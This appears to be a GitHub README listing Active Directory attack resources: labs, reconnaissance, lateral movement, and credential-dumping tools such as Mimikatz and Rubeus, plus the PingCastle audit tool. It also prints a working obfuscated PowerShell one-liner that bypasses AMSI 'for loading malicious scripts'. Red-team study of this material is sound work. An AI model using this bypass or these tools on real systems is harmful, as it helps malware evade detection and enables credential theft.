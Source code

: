 # AD-Security-Resources


<H2>Huge list of AD security resources available below :</H2>
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


<H2> Setting up active directory lab : <H2>
  <p>  https://github.com/outflanknl/Invoke-ADLabDeployer </p>



<H2> Bypassing Powershell execution policy issues : </H2>

<h3>Github links - AMSI Bypass for loading malicious scripts: <h3> 
  <p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<h3> Something that works quickly </h3>
  <p>   sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

<H2> Recon of active directory objects :</h2>
<p>PowerView / Powersploit :</p>
  <p>https://github.com/PowerShellMafia/PowerSploit</p>

-> AD Module :
  https://github.com/samratashok/ADModule

-> Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound


==> Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

<H2> Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
-> Mimikatz :
  https://github.com/gentilkiwi/mimikatz

-> Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

-> Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

-> Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

-> Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

-> Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



